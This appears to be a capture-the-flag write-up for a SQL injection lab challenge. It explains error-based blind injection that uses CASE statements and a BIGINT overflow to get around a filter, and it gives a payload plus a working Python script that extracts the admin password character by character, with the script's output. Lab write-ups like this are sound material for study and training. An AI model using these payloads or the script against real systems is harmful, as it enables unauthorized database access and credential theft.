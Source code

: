 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 28
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6915fb41-8baa-45e1-98b3-c45d05e0ec03)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters the following: `_`, `.`, `(`, `)`, `union`.

Therefore we cannot use the  `length()` function and `if()` statements.
In order to get around this, we will have to use `CASE` statements.

## Error-based Blind SQL Injection

### ERROR 1690 (22003): BIGINT value is out of range[​](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/iron_golem#error-1690-22003-bigint-value-is-out-of-range "Direct link to ERROR 1690 (22003): BIGINT value is out of range")

In SQL the maximum value for a column is `9223372036854775807`. If the value exceeds the limit, it throws the `ERROR 1690 (22003): BIGINT value is out of range` error message.

This is the error we will be exploiting.
### Wildcard

We also need to use the (`%`) wildcard character. It represents zero or more characters after teh specified character.

```
1% = 10, 100, 1200, etc
```

If we provide the following URI parameter:

```
?id=' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -' AND pw='{$_GET[pw]}'
```

If the `[password_substring]` that we provide for `id='admin'` matches part of the `pw`, the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation will be performed. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

### Script

```python title="frankenstein_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': '4qt1p0e0vguiq8oousdc88vhv9'}
url = 'https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php'

password = ''
end = False
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 100):
  if (end == True):
    break
  end = True

  for char in searchspace:
    payload = f"' || CASE WHEN id='admin' AND pw LIKE '{password}{char}%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if ("login_chk" in response.text):
      continue
    elif ("error" in response.text):
      print(f'[+] Character at index {index}: {char}')
      password = password + char
      end = False
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
$ python .\frankenstein_script.py

[+] Character at index 1: 0
[+] Character at index 2: d
[+] Character at index 3: c
[+] Character at index 4: 4
[+] Character at index 5: e
[+] Character at index 6: f
[+] Character at index 7: b
[+] Character at index 8: b

[!] Extracted password: 0dc4efbb
[!] Final payload: ?pw=0dc4efbb
```
